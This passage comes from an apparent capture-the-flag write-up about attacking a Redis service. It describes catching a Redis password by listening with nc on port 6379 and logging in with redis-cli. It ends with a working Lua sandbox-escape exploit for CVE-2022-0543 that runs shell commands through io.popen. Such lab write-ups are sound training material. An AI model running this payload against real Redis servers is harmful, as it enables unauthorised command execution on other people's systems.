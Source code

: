 ````
![](./IMG/68.png)

#### Redis Exploit 

- If I execute it, it will show redis information.

![](./IMG/69.png)
- And it will start from a interesting strings 
> Loggin to redis instance using password .... 
- Maybe the log will record the redis password
- And according some research in [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis), I know the redis-cli will need password 

![](./IMG/70.png)
- but I still not sure the log file location.
- I tried to copy redis_connector_dev to my host and execute it.
- Then I noticed that will failed, but the information will told us it try to connect to port 6379

![](./IMG/71.png)
- So I run nc on port 6379 to see what will happen.
- I get an interesting string: ```F2WHqJUz2WEz=Gqq```

![](./IMG/72.png)
- I think that's the redis password.
- So Back to victim, and try ``` redis-cli --pass F2WHqJUz2WEz=Gqq``` 
- And key ```INFO ``` in cli
- I think I got the legal user in cli.

![](./IMG/73.png)
- BTW, about the log file , with the following command in cli, I got the location 
```
CONFIG get *
```

![](./IMG/74.png)
- but I don't have enough permission

![](./IMG/75.png)

- Do more Research on [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis), I find out the possible vulnerbility is the Lua sandbox bypass part mention a CVE 

![](./IMG/76.png)

#### CVE-2022-0543

- According to this [Analyze Article](https://www.cnblogs.com/h0cksr/p/16189735.html), the root cause:  
>In Redis Server, there is a potential risk is the attacker connect to redis server, it can use 'eval' to execute 'lua script', but it only allow the script run in sandbox.
>So the main purpose of this CVE focus on 'Bypass the sandbox ' to read/write file.
>Attacker use the module 'liblua5.1.so.0' to load lua library to escape from sandbox then execute arbitrary command.

- Here is the detail exploit script

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r"); # command
local res = f:read("*a");
f:close();
return res
```
````